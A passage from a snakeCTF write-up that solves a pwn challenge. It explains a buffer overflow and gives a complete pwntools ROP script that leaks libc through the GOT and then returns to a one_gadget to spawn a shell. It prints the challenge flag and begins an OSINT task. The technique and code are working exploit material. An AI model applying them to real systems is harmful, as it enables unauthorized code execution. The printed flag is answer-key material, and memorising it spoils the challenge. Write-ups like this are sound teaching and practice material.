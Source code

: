 We can see that read() is vulnerable to buffer overflow, and if we look with checksec, we see that no protections are active except for NX.
Also, you can find the libc version used by checking inside the docker environment.

The way to solve this is to exploit the bof two times:
get a libc leak by printing a got address and calculate libc base address, then return to main and exploit the bof again to return to one_gadget that will call system("/bin/sh").

Here is the script:

```python
def main():
	offset = 40
	rop = ROP(exe)

	# bof to leak libc
	payload = flat(
		'A' * offset,
		p64(rop.find_gadget(['pop rdi', 'ret']).address),
		p64(exe.got.puts),
		p64(exe.plt.puts),
		p64(exe.sym.main)
	)
	sl(payload)
	ru("it!\n")

	leak = u64(rl()[:-1] + b'\x00' * 2) # libc leak
	libc.address = leak - libc.sym.puts # find libc base addr
	rop2 = ROP(libc)

	# ret2 one_gadget after setting constraints
	payload2 = flat(
			'A' * offset,
			p64(rop2.find_gadget(['pop r15', 'ret']).address),
			p64(0),
			p64(rop2.find_gadget(['pop r12', 'ret']).address),
			p64(0),
			p64(libc.address + 0xe3afe) # one gadget
	)

	sl(payload2)
	r.interactive()
```

🏁 _snakeCTF{w3lc0m3\_70\_5n4k3c7f\_pwn3r}_{:.spoiler}

# OSINT

## flightyflightflight

> Look mum I can fly!<br><br>
> Flag format: snakeCTF{IATAcode_ICAOcode}
